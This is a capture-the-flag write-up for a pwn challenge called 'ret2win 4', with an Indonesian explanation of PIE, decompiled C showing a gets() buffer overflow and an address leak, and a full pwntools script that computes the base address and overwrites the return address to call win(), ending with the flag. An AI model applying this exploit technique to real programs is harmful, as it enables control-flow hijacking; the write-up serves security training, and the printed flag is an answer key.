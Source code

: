 # [Pwn] ret2win 4

## 📚 Overview

> *"Mitigasi lain untuk menyusahkan penyerang dalam mengubah alur program adalah PIE. PIE adalah singkatan dari Position Independent Executable yang mengakibatkan program kita untuk di-load ke dalam memori dengan offset random. Jadi walaupun ada buffer overflow, penyerang tidak tau alamat dari fungsi/instruksi yang ingin dijalankan. Tapi, kalau kita bisa dapetin salah satu alamat dari program saat dijalankan, alamat dari fungsi/instruksi yang ingin dijalankan tinggal dihitung dari selisihnya dengan alamat yang udah didapetin tadi."*

## 💻 Decompiled Code

The binary given has enabled the feature of **PIE** to mitigate buffer overflow attack. However, a variable's memory address was *leak* so we will use the value to calculate the offset.

```c
void win(void)
{
  char flag [104];
  FILE *file;
  
  file = fopen("flag.txt","r");
  if (file == (FILE *)0x0) {
    printf("flag.txt not found");
    exit(-1);
  }
  fgets(flag,100,file);
  fclose(file);
  printf("Wow, how did you get here? Here\'s the flag:\n%s",flag);
  return;
}

undefined8 main(void)
{
  char buffer [112];
  
  printf("Here\'s a gift for you: 0x%lx\n",&what_is_this_for);
  printf("Give me your payload: ");
  gets(buffer);
  return 0;
}
```

## ⚙ Full Script

**Payload >** Calculate the offset used by the binary, add the offset's value to the `RET_ADDR` and `WIN_ADDR`, overflow the buffer to reach the stack, and then overwrite the RIP with `win()` address.

```python
from pwn import *
elf = context.binary = ELF("./ret2win", checksec=False)

p = process('./ret2win')
# p = remote("IP_ADDR", PORT)

p.recvuntil(b'Here\'s a gift for you: ')
LEAK_ADDR = int(p.recv(14), 16)
BASE_ADDR = LEAK_ADDR - elf.symbols.what_is_this_for

offset = 0x78
RET_ADDR = p64(0x101a + BASE_ADDR)
WIN_ADDR = p64(elf.symbols.win + BASE_ADDR)

rop = ROP(elf)
rop.raw(RET_ADDR)
rop.raw(WIN_ADDR)

payload = b'A' * offset + rop.chain()
p.sendlineafter(b"Give me your payload: ", payload)

response = p.recvall(timeout=1).strip()
print(response.decode())

# TCP1P{leak_satu_alamat_semua_alamat_ketahuan}

p.close()
```